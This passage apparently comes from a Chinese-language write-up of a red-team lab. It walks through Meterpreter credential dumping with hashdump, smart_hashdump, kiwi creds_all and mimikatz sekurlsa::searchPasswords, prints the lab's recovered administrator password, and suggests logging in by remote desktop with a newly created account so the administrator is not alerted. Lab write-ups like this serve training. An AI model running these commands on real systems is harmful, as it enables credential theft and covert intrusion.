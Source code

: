 ```
run hashdump
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](https://p3.ssl.qhimg.com/t0141e238dc5c86a477.png)](https://p3.ssl.qhimg.com/t0141e238dc5c86a477.png)

**2：导出hash**

```
run windows/gather/smart_hashdump
```

[![](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](https://p0.ssl.qhimg.com/t01e24a131a49709839.png)](https://p0.ssl.qhimg.com/t01e24a131a49709839.png)

**3：加载 kiwi模块**

这里尝试加载kiwi模块，获取不到账号密码

```
load kiwi
creds_all
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](https://p5.ssl.qhimg.com/t0132df300b4ba9d0ce.png)](https://p5.ssl.qhimg.com/t0132df300b4ba9d0ce.png)

**4：加载 mimikatz 模块**

再尝试加载 mimikatz 模块，加载模块前需要先将meterpreter迁移到64位的进程，而且该进程也需要是system权限运行的。如图，成功获得账号密码：administrator/hongrisec@2019

```
migrate PID
load mimikatz
mimikatz_command -f sekurlsa::searchPasswords
```

[![](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t012f23f4fc600e160f.png)

### 

### 远程桌面登录

这里我们已经获得了administrator的账号和密码，现在我们既可以使用administrator账号登录，也可以新建账号登录(hack/Password@)。(不建议直接用administrator身份登录，因为这样有可能会惊动管理员)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d536d93a139ebe6a.png)
